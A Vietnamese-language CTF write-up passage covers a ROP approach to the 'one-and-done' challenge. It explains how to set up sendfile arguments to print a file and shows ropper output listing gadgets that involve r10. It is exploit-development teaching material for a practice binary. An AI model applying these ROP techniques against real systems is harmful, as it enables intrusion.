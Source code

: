 ### cách 2 (open + sendfile)

- trước tiên cần biết cách setup syscall ```sendfile``` , ở đây 

1. in_fd sẽ là read và out_fd sẽ là write
2.  Nếu offset là NULL, thì dữ liệu sẽ được đọc từ in_fd , thằng này sẽ là NULLNULL
3.  count là số byte cần sao chép giữa các mô tả tệp , có nghĩa là từ read sang write (số byte được in ra)

vậy out_fd sẽ là 1 và in_fd là 3
```cs
#include <sys/sendfile.h>

       ssize_t sendfile(int out_fd, int in_fd, off_t *_Nullable offset,
                        size_t count);
```

- ở đây tham số thứ 4 là r10 , tuy nhiên ta không có gadget nào control nó :

```cs
ploi@PhuocLoiiiii:~/pwn/ROP/tamu_ctf$ ropper -f one-and-done | grep r10
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000401e42: add eax, 0xdaf88348; jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401d8a: add eax, 0xfa8948c3; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401ad4: add edi, eax; cmp byte ptr [r10], al; add byte ptr [rax], al; add byte ptr [rax + 0xda], bh; lea rdi, [rip + 0x4328]; syscall;
0x0000000000401ad6: cmp byte ptr [r10], al; add byte ptr [rax], al; add byte ptr [rax + 0xda], bh; lea rdi, [rip + 0x4328]; syscall;

0x000000000040226b: cmp byte ptr [r8 + 0x39], r9b; sub byte ptr [r10 + rcx + 0x31], r14b; sal byte ptr [rcx], cl; test byte ptr [rax - 0x77], -0x11; call qword ptr [rbp + 0x48];
0x000000000040226c: cmp byte ptr [rax + 0x39], cl; sub byte ptr [r10 + rcx + 0x31], r14b; sal byte ptr [rcx], cl; test byte ptr [rax - 0x77], -0x11; call qword ptr [rbp + 0x48];
0x0000000000401e44: cmp eax, -0x26; jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e43: cmp rax, -0x26; jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e46: fidiv dword ptr [rbp - 0x3c]; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e33: jae 0x1e55; movsxd rdx, edx; xor r10d, r10d; mov rax, rbx; mov rsi, rbp; syscall;
0x0000000000401e47: jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401a3f: jns 0x1a63; movsxd rdx, r8d; xor r10d, r10d; mov rax, r9; mov rsi, rbx; syscall;
0x0000000000401d8d: mov edx, edi; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d73: mov edx, edi; mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401579: mov esi, esp; movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401d8f: mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d75: mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
0x000000000040157e: mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401da9: mov r10d, 8; mov eax, 0xe; xor edx, edx; mov edi, 2; syscall;
0x000000000040210d: mov rdx, r10; mov rsi, r9; mov rdi, r8; call 0x1fee; add rsp, 0x18; ret;
0x0000000000401d8c: mov rdx, rdi; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d72: mov rdx, rdi; mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401578: mov rsi, rsp; movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x000000000040157b: movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401e35: movsxd rdx, edx; xor r10d, r10d; mov rax, rbx; mov rsi, rbp; syscall;
0x0000000000401a41: movsxd rdx, r8d; xor r10d, r10d; mov rax, r9; mov rsi, rbx; syscall;
```